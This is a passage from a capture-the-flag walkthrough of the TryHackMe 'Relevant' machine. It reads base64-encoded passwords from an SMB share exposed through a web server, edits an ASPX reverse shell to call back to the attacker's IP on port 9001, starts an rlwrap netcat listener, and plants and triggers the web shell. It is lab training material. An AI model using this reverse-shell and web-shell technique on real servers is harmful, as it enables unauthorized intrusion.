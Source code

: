 ### Checking for the file inside the SMB share
```console
local@local:~/Documents/tryhackme/relevant$ curl http://10.10.126.3:49663/nt4wrksv/passwords.txt
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
Now that the content of the SMB share is reflected on the webserver and also we have write permission on that share, lets copy an aspx shell on the mounted share.

## Shell as IIS 
### Aspx shell
```console
local@local:~/Documents/tryhackme/relevant$ cp /opt/aspx-reverse-shell/shell.aspx shell.aspx

```
You can find plenty of aspx shell on the internet. 

### Changing the content of the shell
```console
local@local:~/Documents/tryhackme/relevant$ ifconfig tun0 | grep -i 'inet ' | awk -F " " '{print $2}'
10.6.31.213
```
### Changed content
```aspx
    protected void Page_Load(object sender, EventArgs e)
    {
        String host = "10.6.31.213"; //CHANGE THIS
            int port = 9001; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

```
We have changed the contents with our IP and the port that we will be listening on.

### Netcat listener on port 9001
```console
local@local:~/Documents/tryhackme/relevant$ rlwrap nc -nvlp 9001
Listening on 0.0.0.0 9001
```
And notice something different here. I am using rlwrap which can be installed from apt store. As on linux the returned shell would not have autocompletion or arrow keys functions so, we used to get a interactive shell using python or socat. Here using rlwrap we can get the functionality of the arrow keys only.

### Copying the shell inside mnt
```console
local@local:~/Documents/tryhackme/relevant$ sudo cp shell.aspx mnt/shell.aspx
[sudo] password for local: 
local@local:~/Documents/tryhackme/relevant$ ls -la mnt
total 25
drwxr-xr-x 2 root     root      4096 Nov 13 10:31 .
drwxr-xr-x 5 local local  4096 Nov 13 10:26 ..
-rwxr-xr-x 1 root     root        98 Jul 25 21:00 passwords.txt
-rwxr-xr-x 1 root     root     15970 Nov 13 10:31 shell.aspx
```
### Visiting the shell.aspx
```console
local@local:~/Documents/tryhackme/relevant$ curl http://10.10.126.3:49663/nt4wrksv/shell.aspx
```